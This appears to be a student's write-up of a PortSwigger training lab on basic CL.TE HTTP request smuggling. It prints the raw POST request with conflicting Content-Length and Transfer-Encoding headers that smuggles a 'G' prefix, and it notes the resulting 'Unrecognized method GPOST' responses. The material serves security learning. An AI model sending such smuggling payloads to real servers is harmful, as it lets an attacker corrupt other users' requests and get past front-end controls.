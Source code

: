 https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

CL.TE vulnerability

**Objective**: Smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`

```
POST / HTTP/1.1
Host: 0af8004d04a771ff80b7b734006e004c.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

This request causes the front-end to use the CL as the primary header while the back end expects another chunck to arrive.

![](../../../Attachments/Req%20Smug/Pasted%20image%2020250818114654.png)

Used Burp repeater to send multiple requests and some of the responses said: `Unrecognized method GPOST` confirming that I managed to smuggle a request with the `G`

![](../../../Attachments/Pasted%20image%2020250818004152.png)

[Explained](https://www.youtube.com/watch?v=4S5fkKJ4SM4&list=PLGb2cDlBWRUX1_7RAIjRkZDYgAB3VbUSw&index=1&ab_channel=JarnoTimmermans)

